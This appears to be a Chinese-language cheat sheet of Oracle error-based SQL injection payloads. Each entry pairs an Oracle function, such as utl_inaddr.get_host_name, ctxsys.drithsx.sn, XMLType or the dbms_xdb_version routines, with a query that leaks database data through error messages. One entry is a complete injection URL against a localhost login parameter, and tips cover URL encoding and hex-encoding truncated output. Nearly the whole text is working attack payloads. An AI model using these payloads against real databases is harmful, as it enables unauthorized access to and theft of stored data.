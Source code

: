 有表名字段名出数据就不说了。

## 报错注入
### utl_inaddr.get_host_name
```sql
select utl_inaddr.get_host_name((select user from dual)) from dual;
```
11g之后，使用此函数的数据库用户需要有访问网络的权限
### ctxsys.drithsx.sn
```sql
select ctxsys.drithsx.sn(1, (select user from dual)) from dual;
```
处理文本的函数，参数错误时会报错。
### CTXSYS.CTX_REPORT.TOKEN_TYPE
```sql
select CTXSYS.CTX_REPORT.TOKEN_TYPE((select user from dual), '123') from dual;
```
### XMLType
我在12c中测试失败。
```
http://localhost:8080/oracleInject/index?username=admin' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
```
注意url编码，如果返回的数据有空格的话，它会自动截断，导致数据不完整，这种情况下先转为 hex，再导出。

### dbms_xdb_version.checkin
```sql
select dbms_xdb_version.checkin((select user from dual)) from dual;
```
### dbms_xdb_version.makeversioned
```sql
select dbms_xdb_version.makeversioned((select user from dual)) from dual;
```
### dbms_xdb_version.uncheckout
```sql
select dbms_xdb_version.uncheckout((select user from dual)) from dual;
```
### dbms_utility.sqlid_to_sqlhash
```sql
SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual;
```
### ordsys.ord_dicom.getmappingxpath
```sql
select ordsys.ord_dicom.getmappingxpath((select user from dual), 1, 1) from dual;
```
### UTL_INADDR.get_host_name
```sql
select UTL_INADDR.get_host_name((select user from dual)) from dual;
```
### UTL_INADDR.get_host_address
```sql
select UTL_INADDR.get_host_name('~'||(select user from dual)||'~') from dual;
```
